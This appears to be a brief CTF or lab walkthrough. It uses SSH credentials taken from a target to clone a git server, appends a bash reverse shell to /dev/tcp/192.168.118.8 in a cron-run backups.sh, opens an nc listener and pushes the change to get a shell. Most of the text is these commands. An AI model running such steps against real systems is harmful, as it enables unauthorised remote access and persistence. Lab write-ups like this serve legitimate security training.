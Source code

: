 - Initial access was found in the source code of a post and api request to /api/users
- SSH creds were found from the above one and noticed few suspicious cron jobs and git-shell with id_rsa
- Git-server was there in the server and we couldn't push changes to master with existing creds.
- followed below steps

```bash
 GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.120.204:/git-server
```

```bash
cd git-server
```

```bash
git config --global user.name "kali"
```

```bash
git config --global user.email "kali@kali.(none)"
```

```bash
echo "sh -i >& /dev/tcp/192.168.118.8/8080 0>&1" >> backups.sh 
```

```bash
chmod +x backups.sh
```

```bash
git add -A
```

```bash
git commit -m "pwn"
```


```bash
nc -lvnp 8080
```

```bash
GIT_SSH_COMMAND='ssh -i ~/id_rsa -p 43022' git push origin master
```
